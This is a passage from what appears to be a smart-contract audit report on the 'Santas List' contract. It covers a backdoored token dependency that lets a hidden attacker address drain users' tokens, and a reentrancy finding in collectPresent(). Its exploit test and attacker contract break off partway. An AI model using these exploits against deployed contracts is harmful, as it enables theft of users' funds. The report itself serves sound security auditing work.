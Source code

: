 ```
    santaToken.transferFrom(user, maliciousERC20Creator, expectedUserBalanceAfterMint);

    // Attacker has obtained tokens from the user
    assertEq(santaToken.balanceOf(maliciousERC20Creator), expectedUserBalanceAfterMint);
    assertEq(santaToken.balanceOf(user), 0);
}
```
The message left on blockchain is decoded into _"I am going to hack Santas Token!"_. The author of SantasList contract (see comment on line 55 of the file) has the same address as this bad actor.
## Impact
High. The probability of rug pull is very high. 
## Tools Used
Manual check.
## Recommendations
Remove malicious peace of code. Import dependencies from only from verified sources, e.g. from the official Solmate [repository](https://github.com/transmissions11/solmate).
## <a id='H-04'></a>H-04. Reentrancy in collectPresent()            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L155

https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L161

## Summary
In `collectPresent()` it is possible to generate a huge number of tokens bypassing the rules.
## Vulnerability Details
The user of the `SantasList` can be either an EOA or another contract. If the caller of `SantasList` is a contract then it is necessary to pay attention to `_safeMint()` function in `_mintAndIncrement()`: `_safeMint()` calls `_checkOnERC721Received()` which allows to verify that a contract can receive ERC721 tokens. This can have security implications. 
Consider the following contract: 
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import "@openzeppelin/contracts/access/Ownable.sol";
import "forge-std/console.sol";

interface ISantasList {
    function collectPresent() external;
    function balanceOf(address owner) external returns (uint256);
    function transferFrom(address from, address to, uint256 tokenId) external;
}

contract AttackerContract is Ownable {
    ISantasList santasList;

    uint256 counter = 0;

    // Here the attacker specifies how many tokens he
    // would like to generate in a single transaction.
    uint256 public constant WISHED_AMOUNT_OF_TOKENS = 500;

    constructor(address _santasListAddress) Ownable(msg.sender) {
        santasList = ISantasList(_santasListAddress);
```
